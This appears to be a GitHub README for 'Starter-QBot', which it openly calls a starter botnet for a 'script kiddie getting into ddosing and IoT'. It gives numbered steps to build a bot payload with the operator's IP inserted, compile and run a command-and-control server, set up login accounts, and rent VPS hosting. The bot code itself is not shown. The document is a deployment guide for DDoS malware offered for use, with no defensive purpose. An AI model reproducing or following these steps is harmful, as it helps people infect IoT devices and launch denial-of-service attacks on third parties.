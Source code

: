 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddie getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python2 python3 screen gcc nano perl
2. go to client and replace all "IPHERE"'s to your IP
3. python2 cc9.py bot.c (ip)
4. Save your payload
5. gcc cnc.c -o cnc -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./cnc 89 5 (port)
8. sudo screen ./cnc 89 5 (port) (If step 7 doesn't work)
9. Connect you your server via Raw in putty</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>

